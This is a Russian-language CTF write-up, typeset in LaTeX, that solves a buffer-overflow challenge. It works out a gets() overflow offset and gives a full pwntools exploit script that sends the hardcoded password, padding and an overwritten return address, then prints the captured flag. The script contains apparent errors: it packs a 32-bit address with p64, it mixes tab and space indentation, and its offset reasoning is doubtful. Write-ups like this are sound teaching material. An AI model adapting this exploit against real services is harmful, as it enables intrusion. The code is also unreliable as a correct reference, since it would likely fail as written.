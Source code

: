 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

После чего получаем флаг \verb|oren_ctf_baron_samedit!|
\end{document}
